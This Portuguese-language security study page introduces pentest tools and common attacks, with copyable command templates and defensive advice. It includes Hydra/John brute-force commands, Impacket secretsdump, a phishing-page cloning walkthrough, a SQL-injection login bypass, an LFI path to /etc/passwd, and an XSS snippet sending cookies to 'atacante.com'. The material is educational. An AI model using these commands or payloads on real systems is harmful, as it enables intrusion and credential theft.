Kali Linux é uma distribuição Linux (baseada em Debian) mantida pela Offensive Security, já vinda com 600+ ferramentas de pentest pré-instaladas e configuradas: Nmap, Metasploit, Burp, Wireshark, Hydra, John, aircrack-ng e muito mais. Em vez de instalar tudo manualmente, você liga o Kali e já tem o arsenal pronto.

Como usar com segurança
- Rode em máquina virtual (VirtualBox/VMware) — isola do seu sistema principal.
- Pratique só contra alvos seus ou laboratórios autorizados (TryHackMe, HTB, máquinas vulneráveis locais).
- Alternativa para Blue Team: Parrot OS e, para forense, distribuições específicas.
🕷️ Burp Suite 🆕
📖 Aprender a fundo
Explicação completa
Burp Suite é um proxy de interceptação: ele se coloca entre o seu navegador e o site, deixando você ver, pausar e modificar cada requisição HTTP antes de ela chegar ao servidor. É a ferramenta nº 1 para testar segurança de aplicações web, porque expõe e permite manipular tudo que o site envia/recebe "por baixo dos panos".

Os módulos que importam
- Proxy: intercepta o tráfego. O coração da ferramenta.
- Repeater: reenvia uma requisição modificada quantas vezes quiser (testar SQLi, IDOR manualmente).
- Intruder: automatiza ataques (fuzzing, brute force em parâmetros).
- Scanner (versão Pro): procura vulnerabilidades automaticamente.
preco=100 por preco=1, ou id=123 por id=124 (IDOR), e descobre se o servidor valida de verdade. A PortSwigger Web Security Academy é grátis e excelente para treinar.🛡️ Nessus / OpenVAS 🆕
📖 Aprender a fundo
Explicação completa
Nessus e OpenVAS são scanners de vulnerabilidades: varrem redes e sistemas e cruzam o que encontram com bases de falhas conhecidas (CVEs), gerando um relatório priorizado. Fazem em escala o que seria inviável manualmente.
Scanner ≠ pentest
- O scanner encontra e prioriza (por CVSS), mas não confirma exploração.
- Pode gerar falsos positivos — o analista valida.
- Nessus é comercial (tem versão grátis limitada); OpenVAS/Greenbone é open source.
🔓 Hydra / John the Ripper 🆕
📖 Aprender a fundo
Explicação completa
Hydra e John the Ripper atacam senhas, mas de formas diferentes: o Hydra faz brute force online (testa senhas contra um serviço de login, como SSH ou um formulário); o John (e o Hashcat) faz brute force offline — quebra hashes que você já obteve, na sua máquina.
Online × Offline
| 🔓 Hydra (online) | 🧬 John/Hashcat (offline) |
|---|---|
| Bate na porta do serviço | Trabalha sobre um arquivo de hashes |
| Lento, gera logs, pode bloquear conta | Rápido, silencioso, sem tocar no alvo |
Comandos para copiar (clique e edite o que falta)
hydra -l <USUARIO> -P <wordlist> ssh://<IP_DO_ALVO>
hydra -L <lista_usuarios> -P <wordlist> <IP_DO_ALVO> http-post-form "/login:user=^USER^&pass=^PASS^:F=inválido"
hydra -l <USUARIO> -P <wordlist> ftp://<IP_DO_ALVO>
john --wordlist=<wordlist> <arquivo_hash>
hashcat -m 0 -a 0 <arquivo_hash> <wordlist>
🕵️ Sherlock 🆕
📖 Aprender a fundo
O que faz
Recebe um nome de usuário e verifica, em centenas de sites, se aquele perfil existe — retornando os links encontrados. 100% passivo (não toca no alvo).
Como instalar
pipx install sherlock-projectComo usar
sherlock <USUARIO>🧩 Recon-ng 🆕
📖 Aprender a fundo
O que faz
Centraliza dezenas de módulos de OSINT (domínios, e-mails, hosts) com o mesmo fluxo do Metasploit: carrega um módulo, define opções, executa e guarda tudo num banco.
Como instalar
pipx install recon-ngComo usar
recon-ngmarketplace install allmodules load recon/domains-hosts/hackertarget🔎 Maigret 🆕
📖 Aprender a fundo
Como instalar
pip install maigretComo usar
maigret <USUARIO>maigret <USUARIO> --html📧 holehe 🆕
📖 Aprender a fundo
Como instalar
pip install holeheComo usar
holehe <email>📂 dirsearch 🆕
📖 Aprender a fundo
Como instalar
pip install dirsearchComo usar
dirsearch -u https://<ALVO>dirsearch -u https://<ALVO> -w <wordlist> -e php,bak,txt🌀 wfuzz 🆕
📖 Aprender a fundo
Como instalar
pip install wfuzzComo usar
wfuzz -w <wordlist> https://<ALVO>/FUZZFUZZ é trocada por cada item da lista. Ativo — só com autorização.💥 XSStrike 🆕
📖 Aprender a fundo
Como instalar
git clone https://github.com/s0md3v/XSStrikepip install -r XSStrike/requirements.txtComo usar
python xsstrike.py -u "https://<ALVO>/?q=teste"⚡ Nuclei 🆕
📖 Aprender a fundo
O que faz
Roda "templates" (regras em YAML) contra o alvo para detectar falhas conhecidas, exposições e configs erradas — rápido e em escala.
Como instalar
go install github.com/projectdiscovery/nuclei/v3/cmd/nuclei@latestComo usar
nuclei -u https://<ALVO>🪟 Impacket 🆕
📖 Aprender a fundo
Como instalar
pip install impacketComo usar (exemplos)
secretsdump.py <DOMINIO>/<USUARIO>:<senha>@<IP_DO_ALVO>psexec.py <DOMINIO>/<USUARIO>@<IP_DO_ALVO>🗝️ NetExec (ex-CrackMapExec) 🆕
📖 Aprender a fundo
Como instalar
pipx install git+https://github.com/Pennyw0rth/NetExecComo usar
nxc smb <IP_DO_ALVO> -u <USUARIO> -p <senha>nxc smb <FAIXA_DE_REDE> -u <USUARIO> -p <senha> --shares🎣 Responder 🆕
📖 Aprender a fundo
Como instalar
sudo apt install responderComo usar
sudo responder -I <interface>📦 Scapy 🆕
📖 Aprender a fundo
Como instalar
pip install scapyComo usar
sudo scapysend(IP(dst="<ALVO>")/ICMP())🩸 BloodHound 🆕
📖 Aprender a fundo
O que faz
Coleta dados do AD (usuários, grupos, permissões) e monta um grafo onde você acha o menor caminho até o domínio — algo quase impossível de ver manualmente.
Coletar os dados (Python)
bloodhound-python -u <USUARIO> -p <senha> -d <DOMINIO> -c all🧰 pwntools 🆕
📖 Aprender a fundo
Como instalar
pip install pwntoolsComo usar (num script .py)
from pwn import *p = process('./binario')p.sendline(b'A'*64)🧠 Volatility 3 🆕
📖 Aprender a fundo
Como instalar
pip install volatility3Como usar
vol -f <dump> windows.pslistvol -f <dump> windows.netscan<dump>) coletada de uma máquina — base de investigação de incidentes.🛰️ Bettercap 🆕
📖 Aprender a fundo
Como instalar
sudo apt install bettercapComo usar
sudo bettercap -iface <interface>🐙 Sliver 🆕
📖 Aprender a fundo
O que faz
Um C2 gerencia "implants" (agentes) em máquinas comprometidas durante um exercício de Red Team — gerando payloads, recebendo sessões e executando comandos.
Como instalar
curl https://sliver.sh/install | sudo bashComo usar
slivergenerate --mtls <SEU_IP> --save /tmp🎭 SEToolkit (SET) 🆕
📖 Aprender a fundo
O que faz
O SET automatiza ataques de engenharia social: clonar uma página de login real para colher credenciais (Credential Harvester), gerar payloads e montar campanhas de spear phishing. Ele hospeda o clone num servidor local para a vítima acessar. É educacional para entender o "outro lado".
Como instalar
sudo apt install setComo usar
sudo setoolkitNo menu: 1) Social-Engineering Attacks → 2) Website Attack Vectors → 3) Credential Harvester para clonar uma página (apenas em laboratório).
Nível 4 — Tipos de Ataques

🎣 Phishing ✅
📖 Aprender a fundo
Explicação completa
Phishing (do inglês fishing, "pescar") é um ataque de engenharia social: o criminoso se passa por uma entidade confiável — banco, Correios, Netflix, Receita Federal, ou até o RH da sua empresa — para te induzir a entregar dados (senha, cartão, código do app) ou clicar num link malicioso. Não existe "hack técnico" aqui: a vulnerabilidade explorada é o ser humano — pressa, medo, curiosidade e respeito à autoridade.

Como funciona na prática
- O atacante registra um domínio parecido (
itau-seguro.comem vez deitau.com.br) e clona a página de login real. - Dispara milhares de e-mails/SMS com um gatilho emocional: "sua conta será bloqueada em 24h", "você ganhou um prêmio", "atualize seus dados".
- A vítima clica e cai no site clone — visualmente idêntico ao verdadeiro.
- Ao digitar login e senha, os dados vão direto para o servidor do criminoso.
- O clone te redireciona para o site real logo depois — você nem percebe que foi roubado.
Como é na vida real (exemplo de e-mail)
Variações que você vai ouvir
- Spear phishing: direcionado a uma pessoa específica (com nome, cargo, contexto real).
- Whaling: mira "peixes grandes" — CEO, diretor financeiro.
- Smishing: phishing por SMS. Vishing: por ligação de voz.
- Clone phishing: copia um e-mail legítimo que você já recebeu e troca o link.
Como se proteger
- Desconfie de urgência e ameaças. Banco não pede senha por e-mail/SMS.
- Confira o domínio com calma — passe o mouse sobre o link antes de clicar.
- Nunca digite senha vindo de um link de e-mail: acesse o site digitando o endereço.
- Ative 2FA — mesmo com a senha roubada, o atacante trava no segundo fator.
- Na dúvida, ligue para o canal oficial da empresa.
🎯 Spear Phishing 🆕
📖 Aprender a fundo
Explicação completa
Spear phishing é o phishing direcionado: em vez de disparar para milhares, o atacante personaliza a isca para uma vítima usando dados reais (nome, cargo, projetos, fornecedores) coletados no recon. Por parecer legítimo, é muito mais eficaz.
Variações
- Whaling: mira os "peixes grandes" — CEO, diretor financeiro.
- BEC (fraude do CEO): finge ser o chefe pedindo uma transferência urgente.
🦠 Malware ✅
📖 Aprender a fundo
Explicação completa
Malware = malicious software (software malicioso). É o termo guarda-chuva para todo programa criado para causar dano, roubar dados ou tomar controle de um dispositivo sem o seu consentimento. Vírus, worm, trojan, ransomware, spyware, keylogger, rootkit e adware são todos tipos de malware — eles se diferenciam pela forma como se espalham e pelo objetivo final.
A "família" do malware (entenda as diferenças)
| Tipo | Como se espalha | Objetivo principal |
|---|---|---|
| Vírus | Anexado a um arquivo; precisa que você execute | Corromper/infectar outros arquivos |
| Worm | Sozinho, pela rede (não precisa de você) | Se replicar e se espalhar em massa |
| Trojan | Disfarçado de programa útil | Abrir uma porta para o atacante |
| Ransomware | Phishing, trojan ou exploit | Criptografar e cobrar resgate |
| Spyware | Vem junto de outro software | Espionar e coletar dados |
| Rootkit | Pós-invasão, no núcleo do sistema | Esconder-se e manter acesso |
Ciclo de vida típico de uma infecção
- Entrega: chega por e-mail (phishing), pendrive, download pirata ou site comprometido.
- Execução: é rodado — por você (clicando) ou automaticamente (explorando uma falha).
- Persistência: se instala para sobreviver a reinicializações.
- Ação: executa o objetivo — roubar, criptografar, espionar, minerar.
- Comunicação (C2): "liga para casa", enviando dados ao servidor do atacante.
🔒 Ransomware ✅
📖 Aprender a fundo
Explicação completa
Ransomware (de ransom, "resgate") é o malware que criptografa seus arquivos — fotos, planilhas, bancos de dados — e exige um pagamento (geralmente em criptomoeda) para te devolver a chave de descriptografia. Sem a chave, os dados ficam matematicamente inacessíveis. É o ataque mais lucrativo e destrutivo da última década.
Como funciona na prática
Como é na vida real (tela de resgate)
╔══════════════════════════════════╗ ║ 💀 OOPS, YOUR FILES ARE GONE ║ ╚══════════════════════════════════╝ Todos os seus documentos, fotos e bancos de dados foram criptografados com AES-256. Para recuperá-los, envie 0,05 BTC para: bc1q xxxx xxxx xxxx xxxx xxxx xxxx ⏳ Tempo restante: 71:59:42 Após o prazo, a chave será destruída para sempre.

Como se proteger
- Backup 3-2-1: 3 cópias, 2 mídias diferentes, 1 fora do local (e offline). É a ÚNICA defesa garantida.
- Mantenha o sistema atualizado — a maioria dos ataques usa falhas já corrigidas.
- Não pague o resgate: financia o crime e não garante a recuperação.
- Cuidado com anexos e macros do Office — vetor de entrada nº 1.
🐴 Trojan 🆕
📖 Aprender a fundo
Explicação completa
O nome vem do Cavalo de Troia da mitologia grega: por fora, um "presente" útil; por dentro, soldados escondidos. Um Trojan (trojan horse) é um malware que se disfarça de programa legítimo e desejável — um jogo crackeado, um "otimizador de PC", um instalador do Photoshop "grátis" — para que você mesmo o execute. Diferente de vírus e worms, ele não se replica: depende 100% de te enganar para entrar.
Como funciona na prática
- Você baixa um programa "atraente" (crack, mod, app pirata, anexo).
- Ele realmente faz o que promete — para você não desconfiar.
- Em segundo plano, instala silenciosamente o payload malicioso.
- O payload abre um backdoor, baixa outros malwares ou rouba dados.
Como se proteger
- Baixe apps só de fontes oficiais (site do fabricante, lojas verificadas).
- Fuja de cracks e "ativadores" — é o disfarce favorito de trojan.
- Verifique a extensão real:
fatura.pdf.exeé executável, não PDF.
🪱 Worm 🆕
📖 Aprender a fundo
Explicação completa
O worm (verme) é o tipo de malware que se autorreplica e se espalha sozinho pela rede, sem precisar de um arquivo hospedeiro e sem ação humana. Ele encontra outras máquinas vulneráveis, se copia para elas, e dali continua se multiplicando — crescimento exponencial. É a diferença-chave para o vírus, que precisa que você execute algo.
Worms modernos (como o que carregou o WannaCry) podem espalhar ransomware por uma empresa inteira em minutos.
🦠 Vírus 🆕
📖 Aprender a fundo
Explicação completa
O vírus de computador funciona como um vírus biológico: ele se anexa a um arquivo ou programa hospedeiro e só se ativa e se replica quando esse hospedeiro é executado por você. Sem essa ação humana, ele fica dormente. Ao rodar, ele infecta outros arquivos da máquina, e pode corromper dados, deletar arquivos ou abrir caminho para outros ataques.
Vírus × Worm (a confusão mais comum)
| 🦠 Vírus | 🪱 Worm | |
|---|---|---|
| Precisa de hospedeiro? | Sim, anexa-se a um arquivo | Não, é autônomo |
| Precisa de você? | Sim, você executa | Não, espalha sozinho |
| Como espalha | Você compartilha o arquivo | Pela rede, automaticamente |
👁️ Spyware 🆕
📖 Aprender a fundo
Explicação completa
Spyware é o malware espião: ele se instala silenciosamente e coleta informações sobre você — sites visitados, mensagens, localização, contatos, áudio do microfone e até a tela — enviando tudo para um terceiro, sem o seu consentimento. O objetivo pode ser propaganda, fraude financeira ou espionagem direcionada de governos.
O que um spyware costuma capturar
- Hábitos de navegação e histórico (para perfis de anúncio ou chantagem).
- Credenciais e dados bancários digitados.
- Localização, microfone e câmera nos casos mais invasivos (stalkerware).
Como se proteger
- Mantenha o celular/PC atualizado (fecha as falhas zero-click).
- Revise as permissões dos apps (microfone, localização, acessibilidade).
- Cuidado com "apps de monitoramento" — muitos são stalkerware disfarçado.
⌨️ Keylogger 🆕
📖 Aprender a fundo
Explicação completa
Keylogger (de key = tecla + logger = registrador) é um espião que grava cada tecla que você pressiona. Como ele captura no momento em que você digita — antes de qualquer criptografia — ele rouba senhas, números de cartão e mensagens mesmo em sites HTTPS. Pode ser software (um programa escondido) ou hardware (um pequeno dispositivo plugado entre o teclado e o PC).
Como funciona na prática
Como se proteger
- Use 2FA — a senha sozinha não basta para o atacante entrar.
- Gerenciador de senhas que preenche por autofill (não digita = nada para gravar).
- Antivírus/EDR atualizado e cuidado com pendrives e cabos desconhecidos.
- Em PCs públicos, considere o teclado virtual e nunca acesse o banco.
📺 Adware 🆕
📖 Aprender a fundo
Explicação completa
Adware (de advertising + software) é o malware focado em exibir anúncios à força: pop-ups que não fecham, banners injetados em sites, abas que abrem sozinhas e a página inicial/buscador do navegador sequestrados. Costuma chegar "de carona" (bundled) com programas gratuitos — aquele instalador com vários "Avançar" e caixinhas pré-marcadas.
Por que não é tão "inofensivo" quanto parece
- Rastreia sua navegação para mirar anúncios — virando quase spyware.
- Deixa o aparelho lento e consome dados/bateria.
- Os anúncios injetados podem levar a golpes e mais malware (malvertising).
👹 Rootkit 🆕
📖 Aprender a fundo
Explicação completa
O nome vem de root (o superusuário/admin no Linux) + kit (conjunto de ferramentas). Um rootkit é um malware projetado para conseguir o controle mais profundo possível do sistema e, principalmente, para se esconder — dele mesmo, de outros malwares e das ferramentas de segurança. Ele se infiltra em camadas tão baixas (núcleo do sistema operacional, drivers, até o firmware/BIOS) que o próprio sistema "mente" para o antivírus sobre o que existe ali.
Por que é tão difícil de detectar
Como se proteger / detectar
- Habilite Secure Boot e proteções de integridade do sistema.
- Ferramentas dedicadas de anti-rootkit e varredura offline (fora do SO infectado).
- Em infecção confirmada, a recomendação séria é reinstalar do zero — não dá para confiar no sistema comprometido.
🚪 Backdoor ✅
📖 Aprender a fundo
Explicação completa
Um backdoor ("porta dos fundos") é um acesso secreto deixado num sistema para voltar a entrar quando quiser, contornando a autenticação normal. Depois de invadir uma vez (que é trabalhoso), o atacante instala um backdoor para garantir o retorno fácil — isso se chama persistência. Pode ser uma conta oculta, um serviço malicioso ou um trojan instalado.
Por isso, em resposta a incidentes, não basta "tirar o malware": é preciso caçar contas, tarefas agendadas e serviços estranhos que o atacante possa ter deixado para trás.
🌊 DDoS ✅
📖 Aprender a fundo
Explicação completa
DDoS = Distributed Denial of Service (Negação de Serviço Distribuída). A ideia é simples: sobrecarregar um site/servidor com um volume gigantesco de requisições falsas, vindas de milhares de máquinas ao mesmo tempo, até ele ficar lento ou cair — deixando os usuários reais sem acesso. Pense numa loja onde 10 mil pessoas falsas entram só para bloquear a porta: nenhum cliente verdadeiro consegue passar.
Como funciona na prática
Como se defende
- Serviços de mitigação DDoS (Cloudflare, AWS Shield) que absorvem o tráfego.
- Rate limiting e filtragem de tráfego anômalo.
- Você ajuda a defender a internet mantendo seus dispositivos IoT com senha forte — para não virarem zumbis.
💥 DoS 🆕
📖 Aprender a fundo
Explicação completa
DoS (Denial of Service) é derrubar ou deixar lento um serviço sobrecarregando-o a partir de uma única origem. É a versão "simples" do DDoS (que vem de milhares de máquinas/botnet ao mesmo tempo).
Como costuma ser feito
- Volumétrico: inunda a banda com tráfego.
- Exaustão de recursos: abre conexões até esgotar memória/CPU.
- Exploração de falha: um pacote específico que trava o software.
🔨 Brute Force 🆕
📖 Aprender a fundo
Explicação completa
Brute force ("força bruta") é o ataque que tenta senha após senha até acertar — testando combinações automaticamente, milhões por segundo. Não há "esperteza": é tentativa e erro em alta velocidade. Variações comuns: dictionary attack (testa uma lista de senhas comuns como 123456, senha), credential stuffing (usa senhas vazadas de outros sites) e password spraying (testa uma senha comum em muitas contas).
Por que o tamanho da senha importa TANTO
Cada caractere a mais multiplica o número de combinações. Por isso uma senha longa é exponencialmente mais difícil de quebrar:
| Senha | Tempo estimado para quebrar* |
|---|---|
12345 (5 dígitos) | instantâneo |
senha123 (8, só letras+nº) | minutos a horas |
Tr0vão#2026 (11, variada) | centenas de anos |
| frase de 4 palavras aleatórias | milhões de anos |
*Estimativas ilustrativas — variam com o hardware e o método de armazenamento da senha.
Como se defender
- Senhas longas e únicas por site (use gerenciador de senhas).
- 2FA sempre que possível.
- Do lado do servidor: limite de tentativas, bloqueio temporário e CAPTCHA.
💉 SQL Injection 🆕
📖 Aprender a fundo
Explicação completa
SQL Injection (SQLi) acontece quando um site monta consultas ao banco de dados misturando o comando com o que o usuário digita, sem separar as coisas. Se o campo "usuário" entra direto na consulta, o atacante pode digitar código SQL em vez de um nome — e o banco obedece. Isso permite burlar logins, ler dados de outros usuários ou até apagar tabelas inteiras.
Veja o problema com seus próprios olhos
Imagine que o login do site monta esta consulta com o que você digita:
# Uso normal — usuário digita "joao": SELECT * FROM users WHERE user='joao' AND pass='1234'; # Ataque — no campo senha o atacante digita: ' OR '1'='1 SELECT * FROM users WHERE user='joao' AND pass='' OR '1'='1'; # '1'='1' é SEMPRE verdadeiro → login liberado sem saber a senha!
OR '1'='1' torna a condição sempre verdadeira. O banco devolve o usuário e o site autentica.Como se defende (a forma correta)
- Prepared statements / queries parametrizadas: o dado nunca é tratado como comando. É a defesa definitiva.
- Validação de entrada e princípio do menor privilégio no banco.
- Um WAF ajuda a barrar tentativas conhecidas (camada extra, não substitui o código correto).
🕷️ XSS 🆕
📖 Aprender a fundo
Explicação completa
XSS = Cross-Site Scripting. Enquanto o SQLi ataca o banco de dados, o XSS ataca outros usuários. Se um site exibe na página algo que o usuário digitou (um comentário, nome, busca) sem tratar, o atacante pode inserir <script> em vez de texto. Quando outra vítima abre a página, esse script roda no navegador dela, com a sessão dela.
O que o atacante consegue fazer
- Roubar o cookie de sessão → entrar na conta da vítima sem senha.
- Registrar tudo que ela digita (keylogger via JavaScript).
- Redirecionar para sites de phishing ou aplicar golpes na cara dela.
Exemplo: um comentário malicioso
# Em vez de um comentário, o atacante escreve: <script> fetch('http://atacante.com/?c='+document.cookie) </script> # O site salva e exibe. Quem abrir a página envia o # próprio cookie de sessão para o servidor do atacante.
Os 3 tipos
| Tipo | Como funciona |
|---|---|
| Stored | Script fica salvo no site (comentário, perfil) e atinge todos os visitantes. |
| Reflected | Script vai num link malicioso; atinge quem clica. |
| DOM-based | O próprio JavaScript do site insere o dado perigoso na página. |
< em <), usar Content Security Policy (CSP) e marcar cookies de sessão como HttpOnly (o JavaScript não consegue lê-los).🎭 CSRF 🆕
📖 Aprender a fundo
Explicação completa
CSRF (Cross-Site Request Forgery) força um usuário já logado a executar uma ação sem querer. Enquanto você está autenticado no banco, visita um site malicioso que dispara, em segundo plano, uma requisição para o banco usando os seus cookies — e a ação (trocar e-mail, transferir) acontece em seu nome.
Por que funciona
O navegador envia automaticamente os cookies de sessão junto da requisição. Se o site não exige uma prova extra, ele "confia" que o pedido veio de você.
SameSite e reautenticação para ações críticas.🪞 Man-in-the-Middle 🆕
📖 Aprender a fundo
Explicação completa
Man-in-the-Middle (MITM) = "homem no meio". O atacante se posiciona secretamente entre você e o servidor com quem você acha que está falando. Tudo que você envia passa por ele primeiro — ele pode ler, gravar e até alterar as mensagens antes de repassá-las. As duas pontas continuam achando que falam direto uma com a outra.

Como funciona na prática
Como se defender
- Só confie em HTTPS (cadeado) — ele criptografa de ponta a ponta. Nunca ignore avisos de "certificado inválido".
- Em Wi-Fi público, use VPN — o atacante só vê tráfego embaralhado.
- Evite redes abertas para banco/compras; desconfie de redes com nomes genéricos.
🪪 Spoofing 🆕
📖 Aprender a fundo
Explicação completa
Spoofing é falsificar uma identidade para enganar. Existe em várias camadas e é a base do phishing e do MITM.
Tipos comuns
- E-mail spoofing: remetente falso (parece o banco). Combatido por SPF/DKIM/DMARC.
- IP spoofing: forja o IP de origem dos pacotes.
- DNS spoofing: respostas DNS falsas (leva ao DNS poisoning).
- Caller ID / SMS spoofing: número de telefone falsificado.
☠️ DNS Poisoning 🆕
📖 Aprender a fundo
Explicação completa
DNS poisoning (envenenamento de cache DNS) corrompe a "agenda de endereços" da internet: o atacante faz o resolvedor DNS guardar uma resposta falsa, de modo que seubanco.com passe a apontar para o IP do criminoso. Você digita o endereço certo e cai num clone — sem perceber.
Por que é perigoso
- A URL na barra continua a correta — difícil de notar.
- Atinge muitos usuários de uma vez (o cache é compartilhado).
🎨 Defacement 🆕
📖 Aprender a fundo
Explicação completa
Defacement é a "pichação digital": o atacante invade e altera a aparência de uma página (em geral a home), deixando uma mensagem, logo ou recado. É a marca registrada do hacktivismo.
Como costuma acontecer
- Explora falha no CMS (WordPress desatualizado), upload inseguro ou credencial fraca.
- O dano imediato é reputacional, mas sinaliza um comprometimento maior.
💣 Buffer Overflow 🆕
📖 Aprender a fundo
Explicação completa
Buffer overflow é quando um programa escreve além do espaço reservado para um dado (o buffer), invadindo a memória vizinha. Isso pode travar o programa ou, no pior caso, sobrescrever o fluxo de execução e permitir rodar o código do atacante (RCE). Clássico em linguagens sem checagem automática (C/C++).
A ideia (simplificada)
- Um campo espera 8 bytes; o atacante manda 500.
- O excesso sobrescreve o "endereço de retorno" na pilha.
- O programa "volta" para o código do atacante (shellcode).
⛏️ Cryptojacking 🆕
📖 Aprender a fundo
Explicação completa
Cryptojacking é usar secretamente a CPU/GPU da vítima para minerar criptomoeda para o atacante. Não rouba arquivos — rouba poder de processamento e energia. Por isso é silencioso e lucrativo.
Como chega e como notar
- Via navegador: JavaScript de mineração num site/anúncio (roda enquanto a aba está aberta).
- Via malware: instala um minerador persistente na máquina.
- Sinais: lentidão, ventoinha a todo vapor, aquecimento e conta de luz alta.
⚙️ Exploit ✅
📖 Aprender a fundo
Explicação completa
Exploit é o código ou a técnica que aproveita uma vulnerabilidade específica para obter um efeito — acesso ao sistema, travamento, escalada de privilégios. Sem o exploit, a vulnerabilidade é só teoria; com ele, vira ação.
Exploit × Payload
- O exploit é a "chave" que abre a porta (aproveita a falha).
- O payload é o que você faz depois de entrar (reverse shell, etc.).
- Um 0-day é um exploit para uma falha que o fabricante ainda não conhece.
searchsploit se já existe um para aquela versão.📦 Payload ✅
📖 Aprender a fundo
Explicação completa
Payload é a parte do ataque que executa a ação depois que o exploit abriu a porta. É o "o que fazer agora que entrei": abrir uma shell, baixar um arquivo, adicionar um usuário, etc.
Exemplos
- Reverse shell / Meterpreter: dá controle remoto da máquina.
- Bind shell: abre uma porta na vítima esperando conexão.
- Em malware, o payload é o efeito final (criptografar = ransomware, espionar = spyware).
set PAYLOAD ... (veja o card do Metasploit, com comandos clicáveis).📁 LFI / RFI 🆕
📖 Aprender a fundo
Explicação completa
LFI (Local File Inclusion) e RFI (Remote File Inclusion) acontecem quando uma aplicação inclui/abre um arquivo cujo caminho vem da entrada do usuário sem validação.
A diferença
- LFI: faz o site ler arquivos do próprio servidor. Ex.:
?page=../../../../etc/passwd→ vaza usuários do sistema. - RFI: faz o site carregar um arquivo de um servidor do atacante → pode levar a execução de código (RCE).
🆔 IDOR 🆕
📖 Aprender a fundo
Explicação completa
IDOR (Insecure Direct Object Reference) é trocar um identificador na URL/requisição e acessar dados de outra pessoa, porque o servidor mostra o objeto sem checar se você tem permissão sobre ele.
Exemplo clássico
# Sua fatura: https://site.com/fatura?id=1024 # Você troca o número... https://site.com/fatura?id=1025 → fatura de OUTRO cliente!
0️⃣ Zero-Day ✅
📖 Aprender a fundo
Explicação completa
Zero-day ("dia zero") é uma vulnerabilidade desconhecida do fabricante — ou seja, não existe correção (patch) disponível. O nome vem disso: a empresa teve "zero dias" para consertar antes de o problema ser explorado. Enquanto ninguém sabe da falha, qualquer ataque que a use (zero-day exploit) é quase impossível de bloquear, porque não há assinatura nem patch.
A linha do tempo de uma vulnerabilidade
- Falha existe no software, sem ninguém saber.
- Alguém descobre. Se for um criminoso → exploit secreto (perigo máximo). Se for um pesquisador ético → reporta.
- O fabricante é avisado e desenvolve o patch.
- Patch lançado → a falha deixa de ser "zero-day" e vira um CVE conhecido.
- Quem não atualiza continua vulnerável (a maioria dos ataques!).
🎯 APT 🆕
📖 Aprender a fundo
Explicação completa
APT (Advanced Persistent Threat) é um ataque longo, furtivo e bem financiado, normalmente de grupos sofisticados ou patrocinados por estados. O objetivo não é "bater e sair", e sim permanecer meses dentro do alvo coletando informação (espionagem) sem ser notado.
Características
- Advanced: usa técnicas avançadas e até 0-days.
- Persistent: mantém acesso por muito tempo (backdoors, persistência).
- Threat: tem recursos, paciência e um objetivo claro.
🔌 Ataques USB (BadUSB) 🆕
📖 Aprender a fundo
Como funciona
O dispositivo se identifica como um teclado (HID) — e não como armazenamento. Ao ser plugado, ele "digita" comandos pré-programados em altíssima velocidade (abrir terminal, baixar um payload, criar usuário) antes de você reagir. O Digispark é uma plaquinha barata; o USB Rubber Ducky é a versão comercial.
Por que é tão perigoso
- O antivírus confia em "teclado" — não bloqueia a digitação.
- Leva segundos: o golpe do "pendrive perdido no estacionamento" é real e eficaz.
- Não precisa de senha nem de clique seu — só de uma porta USB.
Nível 5 — Defesa & Blue Team

🧱 Firewall ✅
📖 Aprender a fundo
Explicação completa
Um firewall ("parede de fogo") é o porteiro da rede: ele inspeciona todo o tráfego que entra e sai e decide, com base em regras, o que passa e o que é bloqueado. É a primeira linha de defesa do perímetro — separa a sua rede confiável da internet hostil.

Tipos que você vai ouvir
- Packet filter: olha IP/porta (básico).
- Stateful: entende o "estado" da conexão (padrão hoje).
- NGFW (Next-Gen): inspeciona aplicação, faz IPS e filtra conteúdo.
- WAF: firewall especializado em tráfego web (ver card próprio).
🌐 WAF 🆕
📖 Aprender a fundo
Explicação completa
WAF (Web Application Firewall) é um firewall especializado em tráfego web. Enquanto o firewall comum filtra portas e IPs, o WAF entende requisições HTTP e bloqueia padrões de ataque — SQLi, XSS, path traversal — antes de chegarem à aplicação.
Pontos-chave
- Usa regras/assinaturas (ex.: OWASP Core Rule Set).
- Exemplos: Cloudflare, AWS WAF, ModSecurity.
- É uma camada extra — não substitui código seguro.
🔎 IDS 🆕
📖 Aprender a fundo
Explicação completa
IDS (Intrusion Detection System) monitora e alerta sobre atividade suspeita, mas não bloqueia. É a câmera de segurança: avisa que algo errado está acontecendo.
Tipos e detecção
- NIDS (rede) × HIDS (em um host específico).
- Detecção por assinatura (padrão conhecido) ou anomalia (fora do normal).
- Exemplos: Snort, Suricata, Zeek.
🛑 IPS 🆕
📖 Aprender a fundo
Explicação completa
IPS (Intrusion Prevention System) é o IDS que também age: detecta E bloqueia automaticamente a ameaça. Fica "em linha" no caminho do tráfego, podendo descartar pacotes maliciosos na hora.
IDS × IPS
| 🔎 IDS | 🛑 IPS |
|---|---|
| Detecta e avisa | Detecta e impede |
| Fora do caminho (passivo) | Em linha (ativo) |
💊 Antivírus 🆕
📖 Aprender a fundo
Explicação completa
O antivírus detecta e remove malware no dispositivo. Ele evoluiu para o EDR (Endpoint Detection & Response), que além de detectar, registra o comportamento, investiga e responde a incidentes no endpoint.
Como detecta
- Assinatura: compara com uma base de malware conhecido.
- Heurística/comportamento: pega ameaças novas pelo que elas fazem.
🔐 VPN ✅
📖 Aprender a fundo
Explicação completa
Uma VPN (Virtual Private Network) cria um túnel criptografado entre o seu dispositivo e um servidor remoto. Todo o seu tráfego passa por dentro desse túnel: quem estiver na rede local (o dono do Wi-Fi, um atacante MITM) só vê dados embaralhados, e os sites passam a ver o IP do servidor VPN, não o seu.
O que a VPN faz e o que NÃO faz
- ✅ Protege em Wi-Fi público e esconde seu IP/local dos sites.
- ✅ Impede que o provedor (e o dono da rede) veja o conteúdo da navegação.
- ❌ Não te deixa "anônimo" — o provedor de VPN pode ver o tráfego (escolha um confiável, sem logs).
- ❌ Não protege contra malware, phishing ou senha fraca.
📊 SIEM ✅
📖 Aprender a fundo
Explicação completa
SIEM = Security Information and Event Management. Imagine centenas de equipamentos (firewalls, servidores, antivírus, aplicações) gerando milhões de logs por dia. O SIEM centraliza todos esses logs num só lugar, correlaciona eventos e dispara alertas quando detecta um padrão suspeito.
O valor está na correlação
Sozinho, cada evento parece inofensivo. O SIEM enxerga a história: "100 logins falhos seguidos de 1 sucesso (brute force?), depois acesso a um servidor sensível, depois um envio grande de dados para fora". Um humano levaria horas; o SIEM levanta a mão na hora.
- Exemplos: Splunk, Elastic (ELK), Microsoft Sentinel, Wazuh (open source).
- É a ferramenta central do analista de SOC (Blue Team).
🏢 SOC ✅
📖 Aprender a fundo
Explicação completa
